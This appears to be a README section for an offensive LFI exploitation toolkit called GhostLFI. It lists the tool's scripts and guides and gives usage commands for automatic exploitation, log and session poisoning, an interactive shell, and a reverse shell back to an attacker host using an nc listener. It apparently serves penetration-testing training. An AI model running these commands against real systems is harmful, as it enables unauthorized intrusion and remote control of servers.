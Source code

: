 ### 🌟 **THE MAIN TOOL**
```
ghostlfi.py (40KB) - Everything in ONE file
  └─ READ: GHOSTLFI_GUIDE.md
```

### 📚 **Documentation** (11 guides)
```
GHOSTLFI_GUIDE.md         - Complete GhostLFI guide (START HERE!)
START_HERE.md             - Quick start for beginners
LFI_EXPLOITER_GUIDE.md    - Alternative unified tool
PHP_WRAPPERS_GUIDE.md     - HTB Academy techniques
WORKFLOW_DIAGRAM.txt      - Visual flowcharts
QUICK_REFERENCE.txt       - Command cheat sheet
ULTIMATE_GUIDE.md         - Previous version guide
FINAL_SUMMARY.md          - Package overview
CHANGELOG.md              - What's new
TOOLKIT_SUMMARY.md        - Feature comparison
USAGE_GUIDE.md            - All tools documentation
```

### 🔧 **Alternative Tools** (Optional)
```
lfi_exploiter.py          - Unified tool (older version)
file_inclusion_tool.py    - Comprehensive framework
wrapper_generator.py      - Command generator
payload_generator.py      - Payload creator
advanced_wrappers.py      - Advanced module
```

**Recommendation:** Just use `ghostlfi.py` - it has everything!

---

## 🚀 Usage Examples

### Auto-Exploit (Most Common)
```bash
python3 ghostlfi.py -u http://target.com/page.php -p file --auto
```

### With Advanced Techniques (Log + Session Poisoning)
```bash
python3 ghostlfi.py -u http://target.com/page.php -p file --auto --advanced
```

### Interactive Shell
```bash
python3 ghostlfi.py -u http://target.com/page.php -p file --auto --shell
```

### Reverse Shell
```bash
# Set up listener first
nc -lvnp 4444

# Deploy reverse shell
python3 ghostlfi.py -u http://target.com/page.php -p file --auto --revshell --lhost 10.10.10.1
```
